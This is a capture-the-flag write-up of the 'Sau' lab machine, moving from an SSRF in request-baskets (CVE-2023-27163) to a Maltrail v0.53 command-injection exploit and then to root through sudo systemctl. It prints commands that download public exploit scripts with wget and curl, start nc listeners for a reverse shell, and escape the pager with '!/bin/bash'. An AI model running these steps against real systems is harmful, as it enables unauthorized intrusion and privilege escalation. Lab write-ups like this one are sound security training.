 # Sau

## Nmap scan

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

## Site scan

Let's check out the site on port 55555

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

We see it is running request-baskets version 1.2.1 after googling it is vulnerable to CVE-2023-27163

## CVE-2023-27163

1. First we get the exploit "wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh"
2. Next we set up nc on port 8000
3. Then run the exploit
4. WE ARE IN!!!
5. Well not rlly all we got is the webserver to request our server no reverse shell...&#x20;

Leason learned don't get tunnel vision and enumerate properly before trying to exploit.

## Deeper enumeration

I ran a gobuster scan on dns and dir mode but found nothin interesting. On the main page there is a login that asks for a master API key I tried interspting my own auth header and using that to no  avail.

What I then rembered was that port 80 was filtered so wouldn't it be great if we could get our basket to request that port locally. So i set my basket to forward to http://127.0.0.1:80 and voilla.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A sidenot I remeber watching an Ippsec video where he said using 127.0.0.1 is better than using localhost as localhost ca run into IPV6 problems.

We find it's running maltrail v0.53

## Exploit

To get RCE we do the following steps

1. curl -o exploit.py [https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py)
2. nc -lvnp 9000
3. python3 exploit.py <>MY\_IP> \<PORT> http://\<IP:PORT>/\<BASKET>
4. And we get the user flag!!

## Priv esc

Running sudo -l we see we can run: /usr/bin/systemctl status trail.service

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/" %}

This link shows use some exloits. Let try the third one as its shortest.

Running the command we found with sudo -l and then !/bin/bash as outlined in GTFOBins.

WE GET ROOT!!

PAWNEDD
